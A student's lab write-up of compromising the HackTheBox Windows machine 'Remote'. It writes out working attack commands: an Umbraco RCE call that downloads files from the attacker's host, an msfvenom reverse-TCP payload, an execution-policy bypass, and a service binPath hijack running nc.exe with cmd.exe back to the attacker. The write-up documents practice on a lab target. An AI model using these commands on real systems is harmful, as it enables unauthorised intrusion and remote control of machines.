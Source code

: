 # Week 9 - HTB - Remote

![remote](images/remote.png)

Sasha Thomas

May 27th 2020

## Introduction and Materials

This week, I decided to step away from SmashTheStack temporarily and try my hand at another HTB machine.

This box was especially difficult, not only because I had no experience with Windows, but also because it is an active machine, meaning there are no write ups or references available. I didn't need to refer to any write ups for the last box (OpenAdmin), but I at least had the ease of mind that they were available. For this, I was on my own. 

To complete this, I used the MetaSploit Framework, MSFVenom, Python, `netcat`, Nmap, and `mount` (maybe some other tools I'm forgetting)

## Steps to Reproduce

1. As per usual, I used `nmap` to scan `10.10.10.180` with flags set to probe service/version info. A handful of ports were open:

   ![portscan](images/portscan.PNG)

   Not being experienced with Windows, nothing stood out to me, so out of curiosity I hit the IP in my web browser:

   ![acmesite](images/acmesite.png)

   I gave OWASP DirBuster a spin, because it led me down the right path with OpenAdmin, but the results were as impressive for this machine. Looking back at my Nmap scan, I started to google the services and ports I didn't recognize (which was pretty much each one). It was until I googled `mountd`, the service running on port 2049, that led me to something interesting. 

2. Some research led me to NFS or Network File System, which allows remote hosts to mount systems/directories over a network. If I could mount a directory from this machine to mine, then this might give me some good information. Running the command `showmount` told me that everyone could mount the directory `/site_backups`:

   ![showmount](images/showmount.PNG)

   Using the `mount` command, I successfully copied `/site_backups` to Kali, and began enumerating! 

   ![mounted](images/mounted.PNG)

   Learning from previous boxes, my goal was to look for any file related to configuration, settings, data, defaults, logs, etc. Eventually, within `/App_Data`, when I printed the contents of `umbraco.sdf`, I found some strings but mostly a sea of unrecognized characters. Having encountered similar situations, I know that the `strings` command is infinitely useful. Using `strings` gave me an interesting log of events, which looked like it included a password hashed using SHA1:

   ![hashedpass](images/hashedpass.PNG)

   Using a SHA1 decryptor, I was able to find a password: "baconandcheese"

3. Since these were credentials for Umbraco, I went to http://10.10.10.180/umbraco and successfully logged into the administrator account!

   ![admin](images/admin.PNG)

   This was great, but my goal remained to get into the machine. Having admin access to the site presumably meant that this was my way in, so more research led me to an exploit for this version of Umbraco CMS (https://github.com/noraj/Umbraco-RCE). This exploit, with admin credentials, allows for remote code injection into the box. After some tweaks to my syntax, I was successfully able to send commands to the machine! 

   ![firstshellkinda](images/firstshellkinda.PNG)

4. This is unfortunately where the pain began. Before this, I was getting by with google searches and a lot of enumeration. From this point on, I ran into a problem at every step of the way. Compounded with trying to get $%&#*@ powershell to do what I wanted it to, I was stuck at this point for the rest of the day. Technically, I owned user, in the sense that I was on the computer and got the user flag. But I didn't really "own" user, I was just injecting code. So I began trying to get a low-privileged shell, because I didn't see a way to escalate what I had to root without an actual shell.

5. I will spare the details of my frustration and speak to the core of my confusion. Because this is a Windows machine, many of the tools and strategies I've heard about or could google quickly didn't apply (as they were mostly Linux based). I felt stuck, because many of the strategies specifically for Windows required a shell or meterpreter. I wasn't using meterpreter, and didn't know how to use what I had to get a shell. Other resources I found suggested using `nc`, the Windows version of `netcat`, but this is obviously not installed on Windows machines by default. So, what if I put it on there? 

6. This was an idea that led me down a rabbithole. Although my RCI was very low-privileged, I could still by default upload to `/Users/Public`, where the user flag was held. I just needed to spin up a quick web-server to host the files, something I've never done before. I was ecstatic to find a super basic Python command, `SimpleHTTPServer`, which takes a port and creates a file sharing server from the directory you are in. I quickly had a rudimentary file sharing server which could host all the malicious files I wanted!

   ![pythonserver](images/pythonserver.PNG)

   (By the time I rooted the box, these were all the things I tried using)

7. Getting the files on the machine using powershell was an endeavor of its own. Technically the "p" and "s" in powershell should be capitalized, but it doesn't deserve the authority. Trying to figure this out took a painstaking half an hour of trying different commands with slightly different syntax. I will never take unix for granted again. Eventually, the command `Invoke-WebRequest` successfully did the job of transferring a file from my machine to `10.10.10.180`. In the end, the syntax isn't too scary, but errors with spaces, backslashes, apostrophes, and quotes, as well as the exploit assuming the powershell flags were incorrect python flags, made the process very tedious. The entire command looked like the following:

   ```bash
   python3 umbraco_exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180' -c powershell.exe -a 'Invoke-WebRequest -Uri 'http://KaliIP:8080/file' -OutFile 'C:\Users\Public\Documents\file'
   ```

8. My newfound ability to transfer files led me to more frustration with `netcat` for Windows after I uploaded the exe. After an hour of frustration with permissions, exe's and powershell in general, I took a step back and researched more ways to accomplish what I wanted to. My goal was to upload something that could give me a shell, eject code to run it, and connect back to that on my Kali box. And the Metasploit Framework and MSFVenom actually allow you to do just that. MSFVenom lets you create malicious exe's that will run an exploit, and from my research, it seemed that through MSF, I could create a handler that listened for this and connect back to it, sort of like using MSF but manually performing each step. I created a malicious exe using the following command:

   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp lhost=KaliIP lport=4444 -f exe > payload.exe
   ```

   I copied this over to `/Public` and ran it. Then, on my Kali machine, I ran MSF and used `exploit/multi/handler` with the right port and IP, and to my surprise, this actually worked and got me a meterpreter session!

   ![meterpreter](images/meterpreter.PNG)

9. As cool as this was, it was only half the battle; I still needed to escalate my privileges somehow. I came back to the box the next day ready for lots of enumeration. It was unfortunately my enumeration which led me down a rabbithole which, while I think is possible, was beyond my capacity to figure out. While doing standard checks of the services running on the computer, I found that TeamViewer7 was running. There was nothing else that stood out to me, so I followed this path and started looking at the files and doing research. I found an exploit for old versions of TeamViewer which revealed passwords for the active TeamViewer session. Running this in metasploit gave me a clear hint!

   ![teamviewerexploit](images/teamviewerexploit.PNG)

   Siiiick!!! I just needed an ID for the TeamViewer session. More googling led me to the `reg query` command on Windows, which allowed me to query the registry holding ClientID:

   ![regquery](images/regquery.PNG)

   Converting the hex to decimal, I got 1769137322, a valid TeamViewerID. 

10. But no dice. I double-checked my number in TeamViewer, the password, ID, but nothing worked. I made sure the TeamViewer exe's were running using the `net start` command, but I got nowhere. Considering the name of the box and the ability to get the password and ID, I believe this is somehow a valid solution, but after a few hours of hitting my head against the wall, I looked for other options. 

11. Feeling as if I was starting over, I found some Windows enumeration and privilege escalation scripts, and transferred them to the box. After another half an hour of trying to download these as modules (in order to use the built-in commands), I finally found a loop around (as I didn't have privileges to install powershell modules):

    ```powershell
    powershell -exec bypass -Command "& {Import-Module ./PowerUp.ps1}"
    ```

    Using this allowed me to run the commands from the .ps1 file for that line only. I used the built-in `Invoke-AllChecks` command. The result was interesting; there was a service running as root which I had permission to not only restart, but change some of it's values, including, but not limited to, it's binary path name.

12. This time, I decided to use the `nc.exe` I originally attempted to use, because this time, I could set it to run with parameters. After uploading `nc.exe`, I used `sc config` on the vulnerable service (`UsoSvc`) to set `binPath` to `C:/Users/Public/Documents/nc.exe KalisIP 4444 -e cmd.exe`. 

    ![restart](images/restart.PNG)

13. For this change to take, I stopped the service, opened a `netcat` listener on my Kali box, and started the service again. And I was finally root!!!

    ![rooted](images/rooted.PNG)



## Discussion

First of all, my inexperience with Windows, cmd, and powershell definitely added lots of stress to this already difficult box. Nothing was super mind blowing, it just took me a long time to enumerate and set everything up perfectly, especially since I haven't used netcat or metasploit to drop a shell like that before. I have done something similar using remote code injection with PHP, but this felt like a whole new beast. 

As far as security principles violated, there were serious issues, starting with allowing everyone to copy that initial backup folder (not to mention using an outdated hash algorithm). But, in general, these vulnerabilities seem "realistic" in the sense that they could happen due to a lazy IT department. 

## Conclusion

I'm still upset I couldn't get the TeamViewer exploit to work. I have no idea why it fails to connect to the ID. I will look into it in my own time and see if I can get it to work. Considering the name of the box, and the password I found, it must be intentional, and likely the intended way. I'm not sure if my method was intentional, but it works! 


